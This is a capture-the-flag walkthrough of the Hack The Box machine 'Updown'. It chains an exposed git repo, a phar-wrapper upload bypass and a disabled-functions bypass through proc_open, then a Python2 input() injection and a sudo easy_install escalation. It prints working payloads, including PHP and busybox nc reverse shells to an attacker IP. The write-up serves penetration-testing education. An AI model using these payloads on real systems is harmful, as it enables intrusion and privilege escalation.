- Machine Name: Updown
- OS type: Linux
- Difficulty: Intermediate

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

port 80 is running website let’s visit it from web browser



it disclosed the hostname for the website `siteisup.htb` let’s add this into /etc/host file using `sudo nano /etc/hosts` 



so this site is check if any site is up and running or not, so we assume that this site may be sending a curl or ping request to site maybe?, let’s start python http server on kali machine using `python3 -m http.server 80` 

and in siteisup.htb enter the http://<your machine’s IP> also for curiosity let’s check the debug mode on 



send request through brup so we’ll inspect it’s response properly 



nice we got hit as expected ,what about Remote file inclusion! let’s create basic php file on our machine and then try to access it to check if this including it’s content and executing it or not

below is the php file that we’ll run id command and we need to check if it’s response includes the command output or not

```bash
<?php
system('id');
?>
```



we got hit and 200 OK on our python web server but response doesn’t executing the file, it’s just included it’s content (php code) into response, what about accessing internal files we can do this by [`file:///etc/passwd`](file:///etc/passwd) will access the /etc/passwd file of it’s [localhost](http://localhost)



Uhh! it detected us as hacker :( it’s not good for us let’s try directory bruteforcing 

```bash
gobuster dir -u http://siteisup.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



let’s access the /dev directory



it’s blank page, HAHAHA, now nothing from here what about subdomain, i thought because we are working on Hackthebox anything can be possible here 😂

```bash
wfuzz -u http://10.10.11.177 -H "Host: FUZZ.siteisup.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 1131
```

—hh 1131: 1131 ch is the default response length so we’ll incude this length using `—hh` option



we found dev subdomain let’s add this to /etc/hosts file and access dev.siteisup.htb site





let’s move to another thing enumerate /dev directory here i’ll use the quickhits.txt for any quickhits

```bash
gobuster dir -u http://10.10.11.177/dev -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt
```



git repo exposed this article help you to exploit exposed git repo → https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37, we’ll download it using wget

**`wget --mirror -I .git [http://siteisup.htb/dev](http://siteisup.htb/dev)/.git`** → to download git repo to our kali machine

not sure but it is not working, let’s use the tool `git-dumper` to dump the git, can be installed by `pipx install git-dumper` 

run with 

```bash
git-dumper http://10.10.11.177/dev/.git/ output
```



it will save all files in output directory

reading `.htaccess` file we found that if we want to access dev.siteisup.htb we need to specify **Special-Dev** header with value `only4dev` 



let’s specify the Header via burpsuite





we checked by uploading files, accessing admin panel with /?page=admin, we tried LFI in `page` parameter but no Luck in that!

uploading files we are not allowed to PHP files



we have the source code of the website so why not look into checker.php file



let’s check the index.php file



it’s including file using `include` function and appending .php extension into all files, now let’s try some basic things here first download the Extension to add custom header for every request https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 



we noticed that it deletes the file after a checking host is online or not!



so it will try to read the file contents and then deletes it, Hmm what if we don’t allow file to be read means what if we upload other files that are not restricted and then access it from the phar wrapper

file still present on the directory as code doesn’t read it so it doesn’t executed the unlink function



it also deletes these files after few mins maybe some system cronjob running!, first let’s create the test.php with following code

```bash
<?php
echo "this is test site";
system('id');
?>
```

zip to phar archive using `zip test.phar test.php` 

upload the test.phar using in dev.siteisup.htb site navigate to /uploads and newly created directory



```bash
http://dev.siteisup.htb/?page=phar://uploads/275a2ded4d22d0d8191147bc128ca090/test.phar/test
```

it does executes the echo command but not the sytem() function



the system() and shell_exec() command not working, maybe these functions disabled, the thing is we can confirm this by reading phpinfo file, for this we need to first write phpinfo() function in our test.php 

```bash
<?php
echo "this is test site";
phpinfo();
?>
```

let’s zip it `zip test.phar test.php` and upload it to the site, follow same process to get it’s upload folder access it from [`http://dev.siteisup.htb/?page=phar://uploads/9af4e6924c1678ab8a59b13900f559c6/test.phar/test`](http://dev.siteisup.htb/?page=phar://uploads/9af4e6924c1678ab8a59b13900f559c6/test.phar/test) 



let’s check if the system() and shell_exec() functions are disbaled or not 



Yes it is disabled now let’s use tool call https://github.com/teambi0s/dfunc-bypasser **to examine the phpinfo.ini file and then find any vulnerability from it**

first let’s download [phpinfo.ph](http://phpinfo.ph)p using curl 

```bash
curl -H "Special-Dev: only4dev" 'http://dev.siteisup.htb/?page=phar://uploads/9af4e6924c1678ab8a59b13900f559c6/test.phar/test' > phpinfo.php
```



now let’s run the dfunc-bypasser tool to analyze the phpinfo.php file

```bash
python2 dfunc-bypasser.py --file phpinfo.php
```



ohh! nice we can see something proc_open is not disabled, from php official documentation we found that 

*proc_open — Execute a command and open file pointers for input/output*

let’s create a test.php with reverse shell using proc_open()

```bash
<?php
$descriptorspec = array(
  0 => array('pipe', 'r'), // stdin
  1 => array('pipe', 'w'), // stdout
  2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.17/443 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

start reverse shell listener on port 443 using `rlwrap -r nc -nvlp 443` 



Bingo!! shell as www-data

let’s check real users in the system using `cat /etc/passwd | grep -i "sh"` 

```bash
cat /etc/passwd | grep -i "sh"
```



oh so our next target is **developer**

## Post-Enum

```bash
sudo -l
```



nothing in `sudo -l` 

let’s search for SUID binaries using find command

```bash
find / -type f -perm -4000 2>/dev/null
```



let’s check permissions of the file using **`ls -la /home/developer/dev/siteisup`**



we have the write permissions to it!! 

let’s check the directory



let’s check the strings of the executable `strings siteisup` 



ohh so it is may be executing the siteisup_test.py is executed by the binary but unfortunately we don’t have write permissions to it

let’s check which python version is running on the system using `python -V` 



quick google search reveals that the python2 has the vulnerability in input() function → https://github.com/3ls3if/Cybersecurity-Notes/blob/main/real-world-and-and-ctf/scripts-and-systems/python2-input-vulnerability.md

we can use `

```
__import__("os").system("id")
```

it throws error but executed the given command 



also the command executed as the developer user, let’s get the reverse shell as developer 

```bash
__import__("os").system("busybox nc 10.10.14.17 443 -e /bin/bash")
```

use this payload start rev shell listener on port 443

in Enter URL here input this malicious payload to get reverse shell



check reverse shell on listener



but we are still not able to read user.txt 



because of this file permissions says the root is the owner of the file and the group developer has read permissions but our user has UID=1002 (developer) but we are not member of developer group

let’s move to root then!!

sudo -l ?? let’s check it out



let’s read the file and check what does it contains



let’s give the GTFOBins a try!

https://gtfobins.github.io/gtfobins/easy_install/nice we found the exploit for sudo what’s the waiting for let’s just exploit it 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

